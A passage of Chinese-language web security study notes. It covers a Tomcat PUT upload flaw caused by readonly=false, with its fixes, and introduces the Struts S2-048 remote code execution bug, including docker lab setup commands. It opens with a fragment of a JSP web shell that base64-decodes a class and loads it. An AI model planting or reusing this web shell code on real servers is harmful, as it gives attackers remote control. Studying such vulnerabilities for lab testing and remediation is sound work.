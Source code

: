   ```jsp
            new
    U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
    %>

  ```
- 总计（漏洞利用成功）：
  - 能上传脚本
  - 1.jsp/得以以.jps的后缀名保存在服务器中
- 解决方案：
  - 修复web.xml关于readonly=false的可写命令，改为只读
  - 网站使用白名单校验机制
### Struts 框架漏洞

- 漏洞介绍：
  - S2-048 远程代码执行漏洞（CVE-2017-9791）
  - 影响版本: 2.0.0 - 2.3.32
- 漏洞原理：Apache Struts 1插件的 Apache Struts 2.3.x 版本中存在远程代码执行漏洞，该漏洞出现于Struts2的某个类中，该类是为了将Struts1中的Action包装成为Struts2中的Action，造成了Struts2中的Struts1插件启用的情况下，远程攻击者可通过使用恶意字段值，构造特定的输入，发送到ActionMessage类中，从而导致任意命令执行，进而获取目标主机系统权限。漏洞成因是当ActionMessage接收客户可控的参数数据时，由于后续数据拼接传递后处理不当导致任意代码执行。

- 漏洞测试 
    ```
    docker search s2-048
    docker pull docker.io/piesecurity/apache-struts2-cve-2017-5638
    ```
  - 这个环境是直接下载的struts-2.3.32的showcase，部署在tomcat-8.5下。环境启动后，访问
  http://your-ip:8081/showcase/ 即可查看到struts2的测试页面。

    ![Alt text](images/image04.png)
